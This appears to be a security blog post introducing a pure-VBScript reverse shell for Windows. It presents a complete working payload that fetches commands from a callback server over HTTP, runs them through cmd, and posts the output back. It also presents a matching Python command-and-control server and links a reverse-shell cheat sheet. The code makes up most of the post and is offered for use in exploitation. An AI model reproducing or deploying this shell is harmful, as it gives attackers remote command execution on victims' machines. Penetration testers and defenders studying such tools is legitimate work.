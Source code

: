 =================
VBS Reverse Shell
=================

Introduction
============

**tl;dr:** https://github.com/cym13/vbs-reverse-shell

Reverse shells are scripts that provide shell access to remote users. They
are omnipresent when it comes to computer hacking as they allow the attacker
to transform a single often tedious command execution into an interactive
shell fit for further exploitation.

Most reverse shells scripts are in Bash, Perl or Python for Linux, or
Powershell for Windows. One may notice the lack of options when it comes to
hacking Windows computers: the fact is that if Powershell is available then
it should be used as it's a very powerful scripting language. But not all
Windows have Powershell, and in its absence one may wonder what to do.

We will explore another alternative for Windows systems: Visual Basic Script.

The language
============

VBS is a scripting language inspired by Microsoft's Visual Basic and created
in 1996. It has been the default Windows scripting language since Windows 98
and Windows Server NT 4.0 and is still available on Windows 10 today.

Long story short it's an awful language but it's powerful and resilient. It's
been used to attack computers for a long time and notably used for the famous
virus ILOVEYOU_.

.. _ILOVEYOU: https://en.wikipedia.org/wiki/ILOVEYOU

.. image:: ../image/mary_love_letter.png
    :width: 40%

*So if it's such a ubiquitous language, why isn't it already used for reverse
shells by most people?*

Well, the main reason is that VBS has no easy way to deal with raw sockets by
default. Reverse shells are usually about reading commands from a socket,
executing them, printing their output to the socket and looping over. No raw
socket API means that this simple strategy isn't so simple anymore.

What VBS has however is a way to perform web requests, so the strategy we'll
use is to encapsulate commands and outputs in HTTP requests. This will need a
specific server but it isn't much of an issue.

Of course we could just download a compiled reverse shell through our VBS
script and launch it, but I want to explore a pure VBS option for when
two-stage exploitations are not an option.

The payload
===========

The VBS payload will ask the callback server for commands through GET
requests, reading it from the response. It will then execute the command and
POST the output to the server. No response is expected at that point.

The good thing with that strategy is that it works. I mean, as we said
earlier, VBS has its limitations so getting a working reverse shell is worth
mentioning.

There are also some disadvantages:

- It is stateless, in particular this implementation doesn't allow the user
  to change directory or define variables. Each request is independent from
  the others.

- It's big. A `typical bash reverse shell`__ doesn't take more than 40 chars
  which can easily be concealed or transmitted through narrow buffers. Our
  script is 20 times bigger than that.

- It cannot be transformed into a full TTY shell easily. This means that
  commands that would interactively ask for user input will fail.

.. _bashrs: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

__ bashrs_

An interesting implementation detail though: by using *On Error Resume Next*
we tell the script not to stop on errors. This way, even if we're stalled or
if the connection with the server is lost the script will just retry again
and give us the hand back. We're never stuck (although we may have to wait a
few minutes).

For this reason we defined an exit flag: *EXIT*. This allows us to shut the
script down properly.

Without further delay, here is the full payload I use:

.. code:: vbnet

    Option Explicit
    On Error Resume Next

    CONST callbackUrl = "http://localhost:80/"

    Dim xmlHttpReq, shell, execObj, command, break, result

    Set shell = CreateObject("WScript.Shell")

    break = False
    While break <> True
        Set xmlHttpReq = WScript.CreateObject("MSXML2.ServerXMLHTTP")
        xmlHttpReq.Open "GET", callbackUrl, false
        xmlHttpReq.Send

        command = "cmd /c " & Trim(xmlHttpReq.responseText)

        If InStr(command, "EXIT") Then
            break = True
        Else
            Set execObj = shell.Exec(command)

            result = ""
            Do Until execObj.StdOut.AtEndOfStream
                result = result & execObj.StdOut.ReadAll()
            Loop

            Set xmlHttpReq = WScript.CreateObject("MSXML2.ServerXMLHTTP")
            xmlHttpReq.Open "POST", callbackUrl, false
            xmlHttpReq.Send(result)
        End If
    Wend

The server
==========

A special client means a special server. I choose to do it in Python for
its portability. I decided to use raw sockets and build an HTTP facade on top
of it. This is because I fear that what we exchange through this tunnel
will not always be proper HTTP requests and I don't want a real HTTP server
to helpfully throw exceptions every time it encounters badly formed requests.

The thing is, we don't need to handle real HTTP requests, just to distinguish
GET requests from POST ones. And that's exactly what we do:

.. code:: python

    #!/usr/bin/env python3

    import socketserver

    PORT=80

    class CmdHttpHandler(socketserver.BaseRequestHandler):
        def handle(self):
            self.data = self.request.recv(2**14).strip().decode("UTF-8")

            if len(self.data) == 0:
                return

            elif self.data.splitlines()[0].startswith("GET"):
                command = input("%s > " % self.client_address[0]).encode("UTF-8")

                response = (b"HTTP/1.1 200\ncontent-length: "
                            + str(len(command)).encode("UTF-8")
                            + b"\n\n"
                            + command)

                self.request.sendall(response)


            elif self.data.splitlines()[0].startswith("POST"):
                data = self.request.recv(2**14).strip().decode("UTF-8")
                print(data)
                print()

                response = (b"HTTP/1.1 200\ncontent-length: 0\n\n")
                self.request.sendall(response)
                return


            else:
                print(self.data.decode("UTF-8"))
                response = (b"HTTP/1.1 300\ncontent-length: 0\n\n")
                self.request.sendall(response)


    def main():
        print("To close connection enter 'EXIT'")
        print("The computer may be stalled by some commands, just try again")
        print()

        with socketserver.TCPServer(("0.0.0.0", PORT), CmdHttpHandler) as server:
            server.serve_forever()


    if __name__ == "__main__":
        main()

Conclusion
==========

When I first encountered a case where I needed a non-Powershell Windows
reverse shell I was frustrated not to find any. Hopefully nobody will be in
this situation anymore.

The VBS code may be minimized to better fit in a tight exploit, but I don't
think it will account for much. I'm guessing something like 700 bytes is the
limit. I would be very glad if you were to prove me wrong though!

.. image:: ../image/aihara_enju.png
    :width: 60%

Image sources
-------------

- https://fluffyqueenz.deviantart.com/art/OC-Will-you-accept-my-love-letter-senpai-678491065
- https://www.quora.com/Whats-the-best-loli-anime
